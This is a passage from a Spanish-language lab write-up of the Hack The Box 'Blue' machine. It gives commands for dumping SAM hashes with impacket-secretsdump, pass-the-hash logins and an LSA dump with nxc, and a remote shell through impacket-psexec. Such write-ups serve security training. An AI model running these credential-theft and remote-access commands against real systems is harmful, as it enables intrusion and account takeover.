 Obteniendo:

![Untitled](/assets/img/Blue/Untitled22.png)

Utilizando `impacket-secretsdump` vamos a obtener los hashes:

```bash
impacket-secretsdump -sam sam -system system LOCAL
```

Obteniendo:

![Untitled](/assets/img/Blue/Untitled23.png)

Estos hashes nos servirían para realizar **Pass the hash**

### **Pass the hash**

Una vez encontrando los hashes de los usuarios se van a validar a través de `nxc`

```bash
nxc smb 10.10.10.40 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc'
```

![Untitled](/assets/img/Blue/Untitled24.png)

Dumpear LSA

```bash
nxc smb 10.10.10.40 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' --lsa
```

![Untitled](/assets/img/Blue/Untitled25.png)

Conectarnos a la máquina víctima a través de `impacket-psexec`

```bash
impacket-psexec WORKGROUP/Administrator@10.10.10.40 -hashes :cdf51b162460b7d5bc898f493751a0cc
```
